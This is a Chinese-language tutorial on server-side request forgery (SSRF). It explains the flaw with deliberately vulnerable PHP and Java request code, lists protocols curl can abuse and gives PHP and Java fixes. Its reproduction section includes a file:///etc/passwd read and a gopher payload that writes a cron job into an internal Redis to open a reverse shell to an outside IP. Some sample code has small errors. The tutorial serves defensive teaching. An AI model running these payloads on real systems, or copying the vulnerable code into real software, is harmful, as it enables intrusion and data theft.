




# SSRF(Server-side Request Forge, 服务端请求伪造)

Feei <feei#feei.cn> 2016

## 漏洞介绍
> SSRF(Server-side Request Forge, 服务端请求伪造)，攻击者能让服务端发起构造的指定请求链接而造成的漏洞。

#### 漏洞例子

> 我们先通过一个具体的例子来认识该漏洞。

**有一个“网页翻译”服务，正常情况下我们填入网址就会将网址对应的网站翻译成我们想要的语言。**



**那如果我们填写“网页翻译”服务自己的IP会怎么样呢？填入`http://127.0.0.1:80`后，发现它翻译了自己内容。**




**既然能翻译自己的IP，假设这个“网页翻译”服务是部署在一个内网服务器集群里面，那填入其它服务器的内网IP不就可以获取内网的内容了？**

我们知道内网IP一般分为几个开头的段：`10`、`172`、`192`、`127`，根据这个规律我们可以尝试遍历所有内网IP来探测内网服务。

如果被探测的服务是开启的，我们能看到对应服务的返回内容。如果被探测的服务是关闭的或IP没有使用，那请求将会一直保持连接中直到超时。所以我们可以**根据探测的耗时来判断被探测服务是否存在**。



除了获取远程HTTP的URL内容外，有没有可能获取本地内容呢？

我们知道用**浏览器打开一个本地的文件的时候，浏览器地址栏里面会显示`file:///`这种链接。**

那如果我们构造一个`file`协议的URL，是不是可以获取服务器上的文件内容了？我们来试试：



还真的可以，那这背后的原理是什么呢？

为了更加深入的了解，我们先想想网页翻译服务背后的代码逻辑是怎么样的。

## 漏洞代码

> 既然能翻译其它网站的内容，那肯定会去爬取其它网站的内容，那就得有一个请求服务（`Request Service`）用来获取远程内容。我们简化下代码逻辑，看看最简单的获取远程内容的服务是如何实现的？

**PHP例子**

> PHP语言里有三个常用的请求服务（`Request Service`）的方法：`file_get_contents`、`cURL`以及`fsockopen`。

**example1：`file_get_contents`**
```php
/**
 * Request service(Base file_get_contents)
 *
 * @author Feei <feei@feei.cn>
 * @link   http://blog.feei.cn/ssrf
 */
$url = $_GET['url'];
echo file_get_contents($url);
```

**example2：`cURL`**
```php
/**
 * Request service(Base cURL)
 *
 * @author Feei <feei@feei.cn>
 * @link   http://blog.feei.cn/ssrf
 */
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

**example3：`fsockopen`**
```php
/**
 * Request service(Base fsockopen)
 *
 * @author Feei <feei@feei.cn>
 * @link   http://blog.feei.cn/ssrf
 */
function request($host,$port,$link)
{
    $fp = fsockopen($host, $port, $err_no, $err_str, 30);
    $out = "GET $link HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    $out .= "\r\n";
    fwrite($fp, $out);
    $contents='';
    while (!feof($fp)) {
        $contents.= fgets($fp, 1024);
    }
    fclose($fp);
    return $contents;
}
echo request($_GET['host'], $_GET['port'], $_GET['url']);
```

**Java例子**

> Java里面最常用的请求服务（`Request Service`）的方法：`new URL`

**example1：`URL`**
```java
/**
 * Request service(Base fsockopen)
 *
 * @author Feei <feei@feei.cn>
 * @link   http://blog.feei.cn/ssrf
 */
import org.springframework.boot.*;
import org.springframework.boot.autoconfigure.*;
import org.springframework.stereotype.*;
import org.springframework.web.bind.annotation.*;

import java.io.InputStream;
import java.io.OutputStream;
import com.google.common.io.Files;
import org.apache.commons.lang.StringUtils;

import java.net.URL;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@Controller
@EnableAutoConfiguration
public class SSRFController {

    @RequestMapping("/ssrf")
    @ResponseBody
    public void downLoadImg(HttpServletRequest request, HttpServletResponse response) throws IOException{
        try {
            String url = request.getParameter("url");
            if (StringUtils.isBlank(url)) {
                throw new IllegalArgumentException("url异常");
            }
            downLoadImg(response, url);
        }catch (Exception e) {
            throw new IllegalArgumentException("异常");
        }
    }
    private void downLoadImg (HttpServletResponse response, String url) throws IOException {
        InputStream inputStream = null;
        OutputStream outputStream = null;
        try {
            String downLoadImgFileName = Files.getNameWithoutExtension(url) + "." +Files.getFileExtension(url);
            response.setHeader("content-disposition", "attachment;fileName=" + downLoadImgFileName);

            URL u;
            int length;
            byte[] bytes = new byte[1024];
            u = new URL(url);
            inputStream = u.openStream();
            outputStream = response.getOutputStream();
            while ((length = inputStream.read(bytes)) > 0) {
                outputStream.write(bytes, 0, length);
            }

        }catch (Exception e) {
            e.printStackTrace();
        }finally {
            if (inputStream != null) {
                inputStream.close();
            }
            if (outputStream != null) {
                outputStream.close();
            }

        }
    }

    public static void main(String[] args) throws Exception {
        SpringApplication.run(SecController.class, args);
    }
}
```

了解了“网页翻译”服务背后的代码逻辑之后，那我们可以猜测开篇的例子是因为请求服务（`Request Service`）最起码就支持`HTTP[S]`和`file`协议，我们再跟进去看看还支持哪些协议呢？

## 漏洞复现

#### 漏洞原理

**请求服务（`Request Service`）支持`HTTP[S]`协议，并且同时也默认支持了其它协议。**

这也就导致了最开始例子中的情况，我们填入的一个`file`协议的链接，他就按照`file`协议去读取了对应文件的内容。

既然支持`HTTP[S]`和`file`协议，那是否还支持其它的协议呢？我们来一探究竟：

我们先看看PHP的cURL方法，我们知道PHP的`cURL`模块是基于服务器的`curl`，通过查看`curl`的版本信息，我们可以看到`curl`默认支持的协议有哪些：

```bash
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2h zlib/1.2.8
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```
我们看到，它支持的协议非常多：`dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp`，那我们可以根据这些协议想想看都能干什么呢？

#### 攻击复现

> 我们将”漏洞代码“部署到本机后，我们来测试下几种协议在本机的复现情况：

```
# HTTP协议：构造一个探测请求，以请求的响应时间来判断某个IP的端口是否开启状态
curl http://127.0.0.1/ssrf_01?url=http://10.11.12.13:80

# FILE协议：构造一个探测请求，读取任意文件
curl http://127.0.0.1/ssrf_01?url=file:///etc/passwd

# GOPHER协议：构造一个攻击请求，写入cron到某台内网Redis服务器，反弹SHELL得到服务器权限
curl -vvv 'http://127.0.0.1/ssrf_01?url=http://feei.cn/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```


## 漏洞危害

> 请求服务（`Request Service`）支持的不同协议能达到不同等级的危害，我们来分析下看看到底能达到哪些危害呢？

**HTTP/HTTPS协议**

> 既然能发起`HTTP[S]`请求，我们就能对内网服务发起所有基于Web请求类型漏洞的探测。

- 网络服务探测
- ShellShock命令执行
- JBOSS远程Invoker war命令执行
- Java调试接口命令执行
- axis2-admin部署Server命令执行
- Jenkins Scripts接口命令执行
- Confluence SSRF
- Struts2一堆命令执行
- counchdb WEB API远程命令执行
- mongodb SSRF
- docker API远程命令执行
- php_fpm/fastcgi 命令执行
- tomcat命令执行
- Elasticsearch引擎Groovy脚本命令执行
- WebDav PUT上传任意文件
- WebSphere Admin可部署war间接命令执行
- Apache Hadoop远程命令执行
- zentoPMS远程命令执行
- HFS远程命令执行
- glassfish任意文件读取和war文件部署间接命令执行

**file协议**

> 读取服务器上任意文件内容

**dict协议**

> 可以用来操作内网Redis等服务

**ftp、ftps**

> FTP匿名访问、爆破

**tftp**

> UDP协议扩展

**imap/imaps/pop3/pop3s/smtp/smtps**

> 爆破邮件用户名密码

**telnet**

> SSH/Telnet匿名访问及爆破

**smb/smbs**

> SMB匿名访问及爆破

**gopher协议**

> 这个就是万金油协议了，什么都能干。能够将所有操作转成数据流，并将数据流一次发出去。所以可以用来探测内网的所有服务的所有漏洞。

## 修复方案

> 根据漏洞原理，我们能很容易的推导出修复方案。

- 1. 既然其它协议那么危险，就**禁止非`HTTP[S]`协议的使用**（解决非HTTP[S]协议的高危害）。
- 2. 只允许`HTTP[S]`协议后还是能进行内网探测，所以需要**对被请求的URL进行白名单限制**。
- 3. 部分请求服务（`Request Service`）会默认开启301跳转，也就是说如果是一个`HTTP[S]`的请求，也可能跳转到非`HTTP[S]`的请求上，那就绕过了第一条的限制，所以我们需要**关闭301跳转的支持**。

根据修复方案，我们编写了两款常见开发语言的修复例子：

`PHP cURL`
```php
/**
 * Request service(Base cURL)
 *
 * @author Feei <wufeifei@wufeifei.com>
 * @link   http://wufeifei.com/ssrf
 */
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    /**
     * 1. 增加此行限制只能请求HTTP[S]的服务
     * @link https://curl.haxx.se/libcurl/c/CURLOPT_PROTOCOLS.html
     */
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);  
    /**
     * 2. 增加此行禁止301跳转
     * @link https://curl.haxx.se/libcurl/c/CURLOPT_FOLLOWLOCATION.html
     */
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 0);  
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
/**
 * 3. 请求域名白名单
 */
 $white_list_urls = [
     'www.wufeifei.com',
     'www.mogujie.com'
 ]
 if (in_array(parse_url($url)['host'], $white_list_urls)){
     echo curl($url);
 } else {
     echo 'URL not allowed';
 }
```

`Java HttpURLConnection`
```java
/**
 * 1. 限制允许HTTP[S]协议
 */
if(!url.getProtocol().startsWith("http"))
    throw new Exception();
/**
 * 3. 请求域白名单
 */
InetAddress inetAddress = InetAddress.getByName(url.getHost());
if(inetAddress.isAnyLocalAddress() || inetAddress.isLoopbackAddress() || inetAddress.isLinkLocalAddress())
    throw new Exception();
HttpURLConnection conn = (HttpURLConnection)(url.openConnection());
/**
 * 2. 禁止301跳转
 */
conn.setInstanceFollowRedirects(false);
conn.connect();
IOUtils.copy(conn.getInputStream(), out);
```

## 漏洞场景
> 了解了漏洞的原理后，我们知道所有**能发起请求的地方都可能会存在SSRF漏洞**，我们可以根据“漏洞代码”中的常见方法对项目进行自查。以下列举一些最容易出现本漏洞的场景：


- 能填写链接的地方
- 业务场景
    - 从URL上传图片
    - 订阅RSS
    - 爬虫
    - 预览
    - 离线下载
- 数据库内置功能
    - Oracle
    - MongoDB
    - MSSQL
    - Postgres
    - CouchDB
- 邮箱服务器收取其他邮箱邮件
    - POP3/IMAP/SMTP
- 文件处理、编码处理、属性处理
    - FFmpeg
    - ImageMagick
    - Docx
    - PDF
    - XML

#### 参考资料
- cURL技术手册 - https://curl.haxx.se/libcurl/c/CURLOPT_FOLLOWLOCATION.html
